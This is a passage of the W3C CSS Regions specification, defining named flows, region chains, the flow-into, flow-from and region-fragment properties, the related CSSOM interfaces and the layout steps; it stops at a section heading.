The core concept behind CSS Regions is the ability to say, "Display *this* content (a named flow) over *there* (a region chain)." The simplest example is:

> **Example:** ```
> #this {
>   flow-into: my-flow;
> }
>
> #there {
>   flow-from: my-flow;
> }
> ```

These two declarations will take the element that matches `#this`, put it into a flow named "my-flow", and display the contents of "my-flow" in the box from the element that matches `#there`. This example has a single content source for the named flow, and a single box for the region chain. Named flows can also have multiple sources and use multiple boxes for the region chain.

The named flow mechanism can be used in several different ways - some of which are custom overflow handling, aggregating content, linked display boxes, magazine-style layout, and flowing content through areas in a paginated view.

> **Example:** Linked display boxes can be created to display article content above and below other content on a page. Given markup like this:
>
> ```
> <article> ...some content... </article>
> <aside> ad or image content </aside>
> ```
>
> The <aside> content will be displayed below all of the article content. On a large screen the page might display without scrolling, but on a small screen the <aside> content might not be visible until the view scrolls. If it’s important to show at least some of the <aside> content in the initial view, CSS Regions can fragment the article content across two boxes - one above the <aside> and one below.
>
> In this example (for simplicity’s sake) we create the boxes with additional elements:
>
> ```
> <article> ...some content... </article>
>
> <div class="top region"></div>
> <aside> ad or image content </aside>
> <div class="region"></div>
> ```
>
> ```
> article {
>   flow-into: article-flow;
> }
> .region {
>   flow-from: article-flow;
> }
> .top {
>   max-height: 80vh;
> }
> ```
>
> So the top box in the region chain is limited to 80% of the viewport height. If the article content doesn’t fit in that box, the article will continue in the second box after the <aside> content.
>
> 
>
> Rendering without CSS Regions
>
> 
>
> Rendering with CSS Regions
>
> In the images above, the gray area represents the content below the screen edge in the initial view.
>
> This example links just two boxes together, but more boxes could be added to the region chain to regularly interleave other content with the article.

> **Example:** Custom overflow handling can be accomplished by linking a separate overflow box. In this example, the overflow box is nestled inside a menu in the markup, and only displays if the menu is toggled.
>
> ```
> <nav> ...some links... </nav>
>
> <div class="menu">
>   <nav></nav>
>   ...some more links...
> </div>
> ```
>
> If the links in the main nav element are placed in a named flow, that flow can be directed through both the main nav element and the overflow nav box in the menu:
>
> ```
> nav a {
>   flow-into: nav-link-flow;
> }
> nav {
>   flow-from: nav-link-flow;
> }
> ```
>
> Then the main nav element and the menu can be arranged with constraints such that when the screen is too narrow for the main nav element to display all of the navigation links, the overflow moves to the menu.
>
> 
>
> Wide rendering with menu shown
>
> 
>
> Narrow rendering with menu shown

> **Example:** Since content is assigned to a named flow using a CSS selector, the content can come from multiple sources. The resulting aggregation can be displayed in a single box or flowed through multiple boxes as above.
>
> So given this markup:
>
> ```
> <div class="breaking-news"></div>
>
> <article>News story</article>
> <article class="breaking">Sports story</article>
> <article>News story</article>
> <article class="breaking">Entertainment story</article>
> <article>Sports story</article>
> ```
>
> You can take the "breaking" stories and display them above all the others using two lines of CSS:
>
> ```
> .breaking {
>   flow-into: breaking-news;
> }
> .breaking-news {
>   flow-from: breaking-news;
> }
> ```
>
> Given more data accessible to CSS selectors, you could rearrange the articles in other ways (sports on top, etc.) depending on the user’s preferences.

> **Note:** **CSS Regions are independent from layout**
>
> Any of the CSS layout facilities can be used to create, position and size boxes that can become CSS Regions.
>
> The CSS Regions module does not define a layout mechanism and is meant to integrate with existing and future CSS layout facilities.

> **Note:** **CSS Regions do not have to be elements**
>
> The CSS Regions module is independent of the layout of boxes and the mechanisms used to create them.
>
> For simplicity, our examples tend to use elements to define the boxes. Any other mechanism available in markup or style to create stylable boxes could be used instead, such as pseudo-elements or the @slot rule proposed by the CSS Page Template Module [CSS3-PAGE-TEMPLATE].
>
> The only requirement for box to become a CSS Region is that the `flow-from` property applies to the box.

#### 1.1.  Value Definitions {#css-regions-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  CSS Regions concepts {#css-regions-1:css-regions-concepts}

#### 2.1.  Regions {#css-regions-1:regions}

A **CSS Region** is a block container that has an associated *named flow* (see the `flow-from` property).

#### 2.2.  Region chain {#css-regions-1:region-chain-section}

A **region chain** is the sequence of regions that are associated with a named flow. CSS Regions in a region chain receive content from the named flow following their order in the chain. CSS Regions are organized into a region chain according to the document order.

#### 2.3.  Last region {#css-regions-1:last-region}

A CSS region is deemed to be the **last usable region** in a region chain if it is the first region in that chain to have layout containment, or the last region in the chain if none of them have layout containment (See [CSS-CONTAIN-1]).

#### 2.4.  Named flows {#css-regions-1:named-flow-section}

A **named flow** is the ordered sequence of content associated with a flow with a given identifier. Contents in a named flow are ordered according to the document order.

Content is placed into a named flow with the `flow-into` property. The content in a named flow is laid out in the region chain that is associated with this named flow using the `flow-from` property.

Content from a named flow is broken up between regions according to the regions flow breaking rules.

A named flow is created when some content is moved into the flow with the given identifier or when at least one CSS Region requests content from that flow.

#### 2.5.  Regions flow breaking rules {#css-regions-1:regions-flow-breaking-rules}

Breaking a named flow across a region chain is similar to breaking a document’s content across pages (see [CSS3PAGE]) or a multi-column container’s content across column boxes (see [CSS3COL]). One difference is that page boxes are generated based on the available content whereas a region chain is a set of recipient boxes for the named flow content whose dynamic generation is not in the scope of this specification.

Each CSS Region in turn consumes content from its associated named flow. The named flow content is positioned in the current region until a natural or forced region break occurs, at which point the next region in the region chain becomes the current region. If there are no more usable CSS Regions in the region chain and there is still content in the flow, the positioning of the remaining content is controlled by the `region-fragment` property on the last usable CSS Region in the chain.

The CSS regions module follows the fragmentation rules defined in the CSS Fragmentation Module Level 3 (see [CSS3-BREAK]).

### 3.  Properties {#css-regions-1:properties}

#### 3.1.  The `flow-into` property {#css-regions-1:the-flow-into-property}

[Issue-16527](https://www.w3.org/Bugs/Public/show_bug.cgi?id=16527)

[Shadow]: getFlowByName and shadow DOM

The ‘flow-into’ property can place an element or its contents into a named flow. Content that belongs to the same flow is laid out in the region chain associated with that flow.

| Field | Value |
| --- | --- |
| Name: | **flow-into** |
| [Value:](#css-values-4:value-defs) | none \| `<custom-ident>` [element \| content]? |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | All elements, but not [pseudo-elements](#selectors-4:pseudo-elements) such as `::first-line`, `::first-letter`, `::before` or `::after`. |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

****none****

: The element is not moved to a named flow and normal CSS processing takes place.

**`<custom-ident> [ element | content ]?`**

: If the keyword **element** is present or neither keyword is present, then the element is taken out of its parent’s flow and placed into the flow with the name '`<custom-ident>`'. If the keyword **content** is present, then only the element’s contents are placed into the named flow. The element or content is said to have a **specified flow**. The values `none`, `inherit`, `default`, `auto` and `initial` are invalid flow names.

The `flow-into` property affects the visual formatting of elements or contents placed into a named flow and of the region chain laying out content from a named flow. The `flow-into` property does not affect the CSS cascade and inheritance for the elements on which it is specified. The `flow-into` property does not affect the [DOM](https://www.w3.org/TR/2012/WD-dom-20120405/#introduction-to-the-dom) [DOM] position of an element or its contents. The `flow-into` property does not affect ordering in non-visual media (such as [speech](#css-speech-1)). Likewise, `flow-into` does not affect the default traversal order of sequential navigation modes (such as cycling through links, see e.g. [`tabindex`](https://html.spec.whatwg.org/multipage/interaction.html#attr-tabindex) [HTML]).

A named flow needs to be associated with a region chain (one or more CSS Regions) for its content to be visually formatted. If no region chain is associated with a given named flow, the content in the named flow is not rendered: it does not generate boxes and is not displayed.

The children of an element or content with a specified flow may themselves have a specified flow, in which case they become the next sibling of the latest element or content collected in that flow. In some cases, the child can become the next sibling for one of its ancestors in the same flow.

Content in a named flow is sequenced in document order. The visual formatting model uses the relationships between content in the named flow as input, rather than the contents’ position in the DOM.

Each CSS Region in a region chain establishes a containing block for absolutely positioned elements in the named flow (see [CSS2]). That first CSS Region in a region chain establishes the initial containing block for such absolutely positioned elements. Regions don’t establish a containing block for fixed positioned elements in the named flow. Such fixed positioned elements are still positioned relative to the viewport or the page area even if they have been redirected into a named flow

The first region defines the principal [writing mode](#css-writing-modes-4:writing-mode) for the entire flow. The writing mode on subsequent regions is ignored.

If an element has style containment (See [CSS-CONTAIN-1]), then the `flow-into` property must be scoped to that element.

> **Note:** The `flow-into` property moves an element into the flow and the interplay with selectors should be considered carefully.
>
> For example,
>
> ```
> table {flow-into: table-content}
> ```
>
> will move all tables in the "table-content" named flow. However, the
>
> ```
> table > * {flow-into: table-content} ...
> ```
>
> selector will move all immediate children of all table elements into the "table-content" named flow (which may be useful as it will usually result, if the immediate children are rows, in merging rows of multiple tables), but the
>
> ```
> table * {flow-into: table-content}
> ```
>
> selector will move all descendants of table elements into the "table-content" named flow, transforming the element tree into a flat list in order of opening tags (which is probably not intentional). This will make all the descendants of table elements siblings in the named flow. Having the descendants become siblings in the named flow results in a different processing (see [CSS 2.1’s anonymous table objects](#css2:anonymous-boxes)). This note illustrates how authors must exercise caution when choosing a particular selector for setting the `flow-into` property to avoid unintended results.

> **Note:** Another consequence of moving elements into named flows is that surrounding whitespace is not moved into the named flow. If you have code like this:
>
> ```
> span {flow-into: span-content}
> <span>one</span>
> <span>two</span>
> ```
>
> Then the "span-content" named flow contents will contain this:
>
> ```
> <span>one</span><span>two</span>
> ```
>
> Which will change the display from "one two" to "onetwo". If whitespace is significant, then moving the parent that contains the whitespace to the named flow is required.

#### 3.2.  The `flow-from` property {#css-regions-1:flow-from}

The `flow-from` property makes a block container a region and associates it with a named flow.

| Field | Value |
| --- | --- |
| Name: | **flow-from** |
| [Value:](#css-values-4:value-defs) | `<custom-ident>` \| none |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | Non-replaced [block containers](#css2:block-boxes). This might be expanded in future versions of the specification to allow other types of containers to receive flow content. |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

****none****

: The block container is not a CSS Region.

**`<custom-ident>`**

: The block container becomes a CSS Region (except as detailed in the text below), and is ordered in a region chain according to its document order. The content from the flow with the `<custom-ident>` name will be [broken into fragments](#css-regions-1:region-flow-break) and visually formatted in the [principal boxes](#css2:principal-box) of the regions in the region chain.

  If there is no flow with name `<custom-ident>`, then the block container does not format any content visually.

If the `content` property computes to something else than `normal` (or `none` for a pseudo-element), the block container does not become a CSS Region. If the `display` property of the block container or one of its ancestors computes to `none`, the block container does not become a CSS Region.

A CSS Region’s document children are not visually formatted unless they are directed to a named flow with an associated region chain.

Block container pseudo-elements where the value of `flow-from` computes to an `<custom-ident>` and the value of `content` computes to `none` are generated as CSS Regions, which is an update to the behavior described in [CSS2].

If an element has style containment (See [CSS-CONTAIN-1]), then the `flow-from` property must be scoped to that element.

> **Note:** A block container becomes a CSS Region when its `flow-from` property is set to a valid `<custom-ident>` value, even if there is no content contributing to the referenced flow. For example:
>
> ```
> <style>
> .article{
>     flow-into: thread;
> }
> .region{
>     flow-from: thread;
> }
> </style>
> <html>
> <body>
>   <div class=region>div content</div>
> </body>
> </html>
> ```
>
> There is no element matching the `.article` selector and therefore no content in the `thread` flow. However, the block container matching the `.region` selector is still associated with that empty named flow and, consequently, its children are not formatted visually.

> **Note:** At the time of this note-writing, the `display` values that always result in a non-replaced block container include `block`, `inline-block`, `table-cell`, `table-caption`, and `list-item`. All of these display values work as regions with non-replaced elements.
>
> The `flex` and `grid` display values do not result in block containers (they are defined as flex containers and grid elements, respectively). So ‘[`flow-from`](#css-regions-1:flow-from)’ combined with those display values does not result in a CSS Region.

CSS Regions create a new [stacking context](#css2:z-index). CSS Regions establish a new [block formatting Context](#css2:block-formatting). Exclusions (see [CSS3-EXCLUSIONS]) potentially impact the content laid out in region chains, just as for non-regions.

> **Note:** With region chains, an element may be split across multiple boxes and these boxes may overlap (for example if they are absolutely positioned). So fragments of the same element can overlap each other. Since each element has a single z-index, it would be required to find another mechanism to decide in which order the fragments are rendered. Since each CSS Region creates a new stacking context, it is clear that each fragment is rendered separately and their rendering order follows the regular CSS rendering model.
>
> Fragments rendering separately is also relevant to elements that might normally be rendered as a unit (for example, an element with its own stacking context, or with transparency). Each fragment of these elements is separately contained in the stacking context created by the CSS Region, so each fragment of these elements is rendered separately.

See the [regions visual formatting details](#css-regions-1:regions-visual-formatting-details) section for a description of how `width` and `height` values are resolved for CSS Region boxes.

##### 3.2.1.  Cycle Detection {#css-regions-1:circular-dependencies}

named flows containing elements where the value of `flow-from` computes to a `<custom-ident>` can produce nonsensical circular relationships, such as a named flow containing CSS Regions in its own region chain. These relationships can be easily and reliably detected and resolved, however, by keeping track of a dependency graph and using common cycle-detection algorithms.

The dependency graph consists of edges such that:

- Every named flow depends on its elements where the value of `flow-from` computes to a `<custom-ident>`.
- Every element in a named flow where the value of `flow-from` computes to a `<custom-ident>` depends on the named flow with the <custom-ident> name.

If the graph contains a cycle, any elements where the value of `flow-from` computes to a `<custom-ident>` participating in the cycle do not become CSS Regions.

> **Note:** For example, styling like this:
>
> ```
> #id {
>   flow-into: foolish;
>   flow-from: foolish;
> }
> ```
>
> would move the `#id` element to a "foolish" named flow, and try to make the `#id` element a CSS Region for the "foolish" named flow. The "foolish" named flow would then contain its own region, creating a cycle. So the `#id` element does not become a CSS Region.

> **Note:** The content keyword can be used to break cycles in some circumstances:
>
> ```
> #id {
>   flow-into: not-so-foolish content;
>   flow-from: not-so-foolish;
> }
> ```
>
> Here only the contents of the `#id` element are moved to the named flow, and the box for the `#id` element *does* become a CSS Region. Since the named flow does not contain the element itself, there is no cycle. With this declaration the `#id` element becomes a single-box region chain for its contents, and other boxes could be added to the chain to customize overflow.

##### 3.2.2.  Nested fragmentation contexts {#css-regions-1:fragmenting-regions}

A CSS Region that contains a fragment of a named flow can itself be fragmented if it is nested within a fragmentation context [CSS3-BREAK], such as when a layout using a region chain is printed. In these cases break opportunities in the named flow fragment contained by the CSS Region are determined using the standard [fragmentation rules](#css-break-4). In other words, each region box and its associated fragment should break as if it were a simple div containing the fragment contents. This can be controlled by using an avoid break value on the CSS Region, if that is desired.

A CSS Region can be part of the contents of a separate named flow, as long as there are no cycles broken by the [Cycle Detection](#css-regions-1:circular-dependencies) described above. This case is a **nested region context**, which has an effect on the [Visual Formatting Steps](#css-regions-1:regions-visual-formatting-steps) described below.

#### 3.3.  Controlling Region Flow Breaks {#css-regions-1:region-flow-break}

Fragmentation across regions can be controlled with the `break-inside`, `break-before`, and `break-after` properties: the generic values `auto`, `always`, and `avoid` affect content flowed through regions just as they do content flowed through columns or pages, and the `region` and `avoid-region` values provide region-specific breaking controls. See [CSS3-BREAK] for details.

#### 3.4.  The region-fragment property {#css-regions-1:the-region-fragment-property}

| Field | Value |
| --- | --- |
| Name: | **region-fragment** |
| [Value:](#css-values-4:value-defs) | auto \| break |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | CSS Regions |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

> **Issue:** The `continue` property in [css-overflow-3] is likely to replace this property.

The `region-fragment` property controls the behavior of the last usable region associated with a named flow.

**auto**

: Content flows as it would in a regular content box. If the content exceeds the container box, it is subject to the [overflow](#css2:propdef-overflow) property’s computed value on the CSS Region. Region breaks must be ignored on the last usable region.

**break**

: If the content fits within the CSS Region, then this property has no effect. If the content does not fit within the CSS Region, the content breaks as if flow was going to continue in a subsequent region. See the [breaking rules](#css-regions-1:regions-flow-breaking-rules) section. A forced region break takes precedence over a natural break point.

  Flow content that follows the last break in the last usable region is not rendered.

The `region-fragment` property does not influence the size of the region it applies to.

The following code sample illustrates the usage of the `region-fragment` property.

> **Example:** ```
> <style>
>   article {
>     flow-into: article-flow;
>   }
>   #region-1, #region-2 {
>     flow-from: article-flow;
>     region-fragment: break; /* or auto */
>     overflow: visible; /* or hidden */
>   }
> </style>
>
> <body>
>   <article>...</article>
>   <div id="region-1"></div>
>   <div id="region-2"></div>
> </body>
> ```

| article with two overflowing lines | `region-fragment: break overflow: visible` | `region-fragment: auto overflow: visible` |
| --- | --- | --- |
|  |  |  |
| `region-fragment: break overflow: hidden` | `region-fragment: auto overflow: hidden` |  |
|  |  |  |

Combinations of region-fragment and overflow.

> **Note:** The `overflow` property is honored on a region: if region content overflows, such as the borders of elements on the last line, the `overflow` property controls the visibility of the overflowing content. See the `overflow` property definition ([CSS2]).

### 4.  CSSOM {#css-regions-1:cssom_view_and_css_regions}

Since content may flow into multiple regions, authors need a way to determine if there are enough regions to flow all the content from a named flow. This is especially important considering that the size of regions or the size of the content may change depending on the display context. For example, flowing the same content on a mobile phone with a small screen may require more regions than on a large desktop display. Another example is the user changing the font size of text flowing through regions. Depending on the change, new regions may be needed to accommodate for the additional space required to fit the larger text or some regions may need to be removed for smaller text.

#### 4.1.  The NamedFlow interface {#css-regions-1:the-namedflow-interface}

The following APIs allow scripts to reference a NamedFlow object representation of a named flow.

An additional attribute on the  [`Document`](https://www.w3.org/TR/dom/#interface-document) interface provide access to named flows.

```webidl
partial interface Document {
  readonly attribute NamedFlowMap namedFlows;
};
```

The **`namedFlows`** attribute on the  [`Document`](https://www.w3.org/TR/dom/#interface-document)  interface returns a static snapshot of all the current named flows in the document.

The **`namedFlows`** map must include all named flows that are currently in the `CREATED` state. The list must not include named flows that are in the `NULL` state.

The `NamedFlowMap` interface provides a map of current NamedFlow instances in the document. The NamedFlowMap object is a snapshot of the data, and is read-only.

```webidl
[Exposed=Window] interface NamedFlowMap {
  maplike<CSSOMString, NamedFlow>;
};
```

The map entries in a NamedFlowMap object are the named flow idents paired with their NamedFlow objects. The **`get()`** and **`has()`** methods return null and false respectively if there is no NamedFlow with the given ident. The **`set()`** and **`delete()`** methods always throw an `InvalidAccessError` exception, as this map is read-only. The NamedFlowMap interface uses the rest of the default map [class methods](http://dev.w3.org/2006/webapi/WebIDL/#es-map-members).

The `NamedFlow` interface offers a representation of a named flow instance.

The NamedFlow interface can be used for different purposes. For example, the `getRegionsByContent()` method can help navigate by bookmark: a script can find the CSS Regions that display a particular anchor and bring them to view.

Likewise, the interface allows authors to check if all content has been fitted into existing regions. If it has, the overset attribute would be false.

```webidl
[Exposed=Window]
interface NamedFlow : EventTarget {
  readonly attribute CSSOMString name;
  readonly attribute boolean overset;
  sequence<Element> getRegions();
  readonly attribute short firstEmptyRegionIndex;
  sequence<Node> getContent();
  sequence<Element> getRegionsByContent(Node node);
};
```

The **`name`** attribute returns the name of the NamedFlow instance.

The **`overset`** attribute returns true if there are named flow fragments that do not fit in the associated region chain (including the case where there are named flow fragments but no regions in the region chain). Otherwise, it returns false.

The **`getRegions()`** method returns the sequence of regions in the region chain associated with the named flow. Regions after the last usable region, if any, are included. Note that the returned values is a static sequence in document order.

The **`firstEmptyRegionIndex`** is the index of the first region in the region chain with the `regionOverset` attribute set to `empty`. If all regions have the `regionOverset` attribute set to `fit` or `overset`, the value for `firstEmptyRegionIndex` is `-1`. If there are no regions in the region chain, the value is `-1` as well.

The **`getContent()`** method returns an ordered collection of nodes that constitute the named flow. The returned list is a static snapshot of the named flow content at the time the method is invoked. This list contains the contents that were moved to the named flow by the flow-into property but not any descendants (unless the descendants are themselves moved to the named flow).

The **`getRegionsByContent()`** method returns the sequence of regions that contain at least part of the target content node if it belongs to the named flow directly or one of its ancestors belongs to the named flow. Otherwise, the method returns an empty sequence. The returned value is a static sequence in document order.

The named flow states are :

- `NULL`: the named flow contains no content and has no region chain.
- `CREATED`: the named flow either contains content or has a region chain.

A NamedFlow object is live: it always represents the named flow with the corresponding name even if that named flow has transitioned to the `NULL` state.

#### 4.2.  The Region mixin {#css-regions-1:the-region-interface}

`Region` is a [mixin](https://heycam.github.io/webidl/#idl-interface-mixins) which must be included by all interfaces ( [`Elements`](https://www.w3.org/TR/dom/#interface-element), pseudo-elements or other CSS constructs such as [slots](https://drafts.csswg.org/css3-page-template/#templates-and-slots)) in an implementation which can be CSS Regions.

```webidl
interface mixin Region {
  readonly attribute CSSOMString regionOverset;
  sequence<Range>? getRegionFlowRanges();
};

Element includes Region;
```

The **`regionOverset`** attribute returns one of the following values:

**`overset`**

: The region is the last usable region in the region chain and not able to fit the remaining content from the named flow. Note that the region’s  [`overflow`](#css2:overflow) property value can be used to control the visibility of the overflowing content and the `region-fragment` property controls whether or not fragmentation happens on the content that overflows the last usable region.

**`fit`**

: The region’s flow fragment content fits into the region’s content box. If the region is the last usable region in the region chain, it means that the content fits without overflowing. If the region is not the last usable region in the region chain, that means the named flow content may be further fitted in subsequent regions. In this last case, note that the named flow fragment may be empty (for example if the region is too small to accommodate any content). This value is returned if the Region object is not (or no longer) a region.

**`empty`**

: All content from the named flow was fitted in prior regions.

If there is no content in the named flow, all regions associated with that named flow should have their regionOverset attribute return `empty`. If there is content in the flow but that content does not generate any box for visual formatting, the `overset` attribute on the first region in the region chain associated with the flow will return `fit`.

The **`getRegionFlowRanges()`** method returns an array of [Range](https://www.w3.org/TR/dom/#interface-range) instances corresponding to fragment from the named flow that is laid out in the region. If the region has not received a fragment because it is too small to accommodate any, the method returns a single Range where the `startContainer` and `startOffset` have the same values as the `endContainer` and `endOffset` and therefore the collapsed attribute on the Range is true. In that situation, if the region is the first in the region chain, the `startContainer` is the first `Node` in the named flow and the `startOffset` is zero. If the region is the last usable region in the region chain (but not the first and only one), the `startContainer` and `startOffset` are the same values as the `endContainer` and `endOffset` on the previous region in the region chain. The method returns null if the region object is not (or no longer) a region.

A Region instance may represent an object that is no longer a region. This may happen for example if the `flow-from` property on the corresponding pseudo-element, element or other construct becomes `none` but a script is still holding a reference to the Region object.

#### 4.3.  Named flow events {#css-regions-1:named-flow-events}

NamedFlow objects are [EventTargets](https://www.w3.org/TR/dom/#interface-eventtarget) which dispatch the following events for their respective triggers. These events are asynchronous, and fire at the end of the [regions visual formatting](#css-regions-1:named-flows-layout) steps.

The regionfragmentchange event is dispatched on any change to a named flow’s fragmentation through its region chain, including changes to any overset fragment.

| Type | **`regionfragmentchange`** |
| --- | --- |
| Interface | `UIEvent` (see [DOM-LEVEL-3-EVENTS]) |
| Sync / Async | Async |
| Bubbles | No |
| Target | NamedFlow |
| Cancelable | Yes |
| Default action | none |
| Context info | `Event.target`: NamedFlow whose fragmentation has changed. |

The regionoversetchange event is dispatched if any of the regionOverset values change in a named flow’s region chain, including when regions are added or removed from the chain.

| Type | **`regionoversetchange`** |
| --- | --- |
| Interface | `UIEvent` (see [DOM-LEVEL-3-EVENTS]) |
| Sync / Async | Async |
| Bubbles | No |
| Target | NamedFlow |
| Cancelable | Yes |
| Default action | none |
| Context info | `Event.target`: NamedFlow whose region chain has regionOverset values that have changed. |

#### 4.4.  Clarifications on pre-existing APIs {#css-regions-1:cssomview-and-regions}

##### 4.4.1.  `getClientRects()` and `getBoundingClientRect()` {#css-regions-1:cssomview-getclientrects-and-getboundingclientrect}

The [CSSOM View Module](#cssom-view-1) defines how user agents compute the bounding client rectangle for an element (`getBoundingClientRect()`) and its generated boxes (`getClientRects()`).

This definition applies to the (possibly) multiple boxes generated for an element in a named flow flowing through a region chain. The `getClientRects()` method returns the list of boxes generated for each of the element fragments laid out in different regions. The `getBoundingClientRect()` method operates as specified in the [CSSOM View Module](#cssom-view-1) as well and is computed from the set of rectangles returned by `getClientRects()`.

##### 4.4.2.  `offsetTop`, `offsetLeft`, `offsetWidth`, `offsetHeight` and `offsetParent` {#css-regions-1:cssomview-offset-attributes}

The computation of the [offset attributes](#cssom-view-1:extensions-to-the-htmlelement-interface) for elements laid out in a named flow follow the [specification](#cssom-view-1:extensions-to-the-htmlelement-interface) [CSSOM]. For the purpose of these algorithms, the *first CSS layout box* associated with an element laid out in a named flow is the first box generated for the first region the element is laid out into. In the offsetParent algorithm, the nearest ancestor search skips from the topmost named flow elements directly to the body element.

### 5.  Multi-column regions {#css-regions-1:multi-column-regions}

A [multi-column](#css-multicol-2:multi-column-element) [CSS3COL] element can be assigned to a region chain. The element becomes part of the region chain for the associated named flow, and flows its content fragments through columns according to the multi-column specification [CSS3COL]. In particular, when computing the [flow fragment height](#css-regions-1:rfcb-flow-fragment-height-resolution) of a multi-column container that is associated with a *named flow*, the `column-fill` [CSS3COL] property is honored to balance the fragments of content that would flow through its columns.

Overflow of multicol regions is mostly handled according to the same rules as other CSS Regions. If the remainder of the named flow does not fit in the multicol region, then the rest of the content flows into the remaining region chain. However, if a multicol region is the last usable region in a region chain, then the multicol region must follow the [overflow column rules](#css-multicol-2:overflow-columns) [CSS3COL].

> **Example:** The following example:
>
> ```
> <style>
>   article {
>       flow-into: article-flow;
>   }
>
>   #multi-col {
>       column-count: 2;
>       flow-from: article;
>       height: 6em;
>       column-gap: 1em;
>   }
>
>   #remainder {
>       flow-from: article;
>       height: auto;
>   }
> </style>
>
> <body>
>   <article>...</article>
>   <div id="multicol"></div>
>   <div id="remainder"></div>
> </body>
> ```
>
> is equivalent in rendering to, for example:
>
> ```
> <style>
>   article {
>       flow-into: article-flow;
>   }
>
>   #flex {
>       display: flex;
>       flex-pack: justify;
>       height: 6em;
>   }
>
>   #flex > div {
>       flow-from: article;
>       width: calc(50% - 0.5em);
>   }
>
>   #remainder {
>       flow-from: article;
>       height: auto;
>   }
> </style>
>
> <body>
>   <article>...</article>
>   <div id="flex">
>     <div />
>     <div />
>   </div>
>   <div id="remainder"></div>
> </body>
> ```

### 6.  Pseudo-elements {#css-regions-1:pseudo_elements}

It can be useful to visually mark the content to highlight that a content thread is flowing through the region chain. For example, a marker such as *'continued below'* clearly indicates, at the end of a CSS Region, that there is more content in the flow which can be found by scrolling past whatever content interrupts the region chain.

The '::before' and '::after' pseudo-elements (see [SELECT]) let content authors mark the beginning and end of a region with such markers.

### 7.  Regions visual formatting details {#css-regions-1:regions-visual-formatting-details}

Regions are laid out by CSS and take part in the normal box model and other layout models offered by CSS modules such as flexible boxes ([CSS3-FLEXBOX]). However, regions lay out a fragment of their named flow instead of laying out descendant content as happens with other boxes.

This section describes the model for laying out regions and for laying out named flow content into regions. The descriptions in this section are biased towards a horizontal writing mode, using `width` for logical width (or measure) and `height` for logical height (or extent) as [defined](#css-writing-modes-4:abstract-dimensions) in the CSS Writing Modes Module [CSS3-WRITING-MODES]). To use this model in a vertical writing mode apply the principles [described](#css-writing-modes-4:vertical-layout) in that specification.

#### 7.1.  Processing model {#css-regions-1:processing-model}

The '::before' content is laid out in the region prior to any other content coming from the flow.

The '::after' content is laid out in the region after laying out the flow fragment content into the RFCB. Then, flow content is removed from the fragment to accommodate the '::after' content. Accommodating means that the '::after' content is laid out without overflowing the region.

If there is not enough room to accommodate the ::before content, the '::after' content after removing all flow fragment content, or a combination of the two, then the ::before and/or ::after content overflows that region.

#### 7.2.  The Region Flow Content Box (RFCB) {#css-regions-1:regions-flow-content-box}

A region box lays out the following boxes:

- The boxes generated by its `::before` and `::after` pseudo-elements, if any.
- The anonymous **region flow content box** (called **RFCB** in this document) which contains the fragment of the named flow that the region receives.


The Region Flow Content Box (RFCB)

Laying out a region box follows the same processing rules as for any other [block container box](#css2:block-boxes).

The RFCB is a [block container box](#css2:block-boxes) with a computed `width` of `auto` and whose used `height` is resolved as detailed below.

Since the RFCB is a [block container box](#css2:block-boxes), the ::before box and ::after box will also be block containers, though the contents of ::before and ::after may be inline within those boxes.

##### 7.2.1.  RFCB `width` resolution {#css-regions-1:rfcb-width-resolution}

At various points in the visual formatting of documents containing regions, the used `width` of RFCBs and regions need to be resolved. In all cases, the resolution is done following the rules for [calculating widths and margins](#css2:Computing_widths_and_margins) (see [CSS2]). Sometimes, resolving the used `width` value requires measuring the content’s `min-content` and `max-content` values (as [defined](#css-writing-modes-4:orthogonal-auto) in the CSS Writing Modes Module [CSS3-WRITING-MODES]). or an RFCB, **these measures are made on the *entire* associated named flow content**.

As a consequence, all RFCBs of regions associated with a given named flow share the same `min-content` and `max-content` measures.

This approach is consistent with the [box model for breaking](#css-break-4:varying-size-boxes) ([CSS3-BREAK]).

#### 7.3.  Regions visual formatting steps {#css-regions-1:regions-visual-formatting-steps}

Formatting documents that contain named flows laid out in regions is a three-step process:

- *Step 1: RFCB **flow fragment height** resolution*. In this step, the heights of fragments fitting in the regions' RFCBs are resolved.
- *Step 2: document and regions layout*. In this step, the document content and regions are laid out. However, named flow content is not laid out in regions yet.
- *Step 3: named flow layout*. In this step, the content of named flows is laid out in their respective region chains.


Regions visual formatting steps

##### 7.3.1.  Step 1: RFCB flow fragment height resolution {#css-regions-1:rfcb-flow-fragment-height-resolution}

Conceptually, resolving the flow fragment height is a two phase process.

###### 7.3.1.1.  RFCB flow fragment height resolution, Phase 1 {#css-regions-1:rfcb-flow-fragment-height-resolution-phase-1}

The document is laid out with a [used](#css2:used-value) height of zero for all RFCBs. In this phase, the content of named flows is not laid out in regions. This phase yields resolved position and sizes for all regions and their RFCBs in the document.

###### 7.3.1.2.  RFCB flow fragment height resolution, Phase 2 {#css-regions-1:rfcb-flow-fragment-height-resolution-phase-2}

